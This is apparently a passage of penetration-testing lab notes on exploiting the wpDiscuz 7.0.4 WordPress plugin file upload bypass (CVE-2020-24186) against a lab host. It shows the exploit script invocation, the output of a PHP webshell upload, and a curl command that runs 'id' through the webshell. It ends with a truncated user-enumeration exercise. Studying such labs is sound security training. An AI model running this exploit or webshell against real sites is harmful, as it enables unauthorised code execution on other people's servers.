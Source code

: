 **Vulnerable Plugins - wpDiscuz**

* a WordPress plugin for enhanced commenting on page posts
* version number (7.0.4) [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution
* The crux of the vulnerability is a file upload bypass
* The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a PHP file and gain remote code execution

The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post.

```shell-session
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...
```

{% hint style="info" %}
exploit may fail to execute command but we can try interacting with uploaded web shell with cURL
{% endhint %}

```shell-session
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```

## Assessment

**Perform user enumeration against http://blog.inlanefreight.local. Aside from admin, what is the other user present?**

from our previous WPScan we found
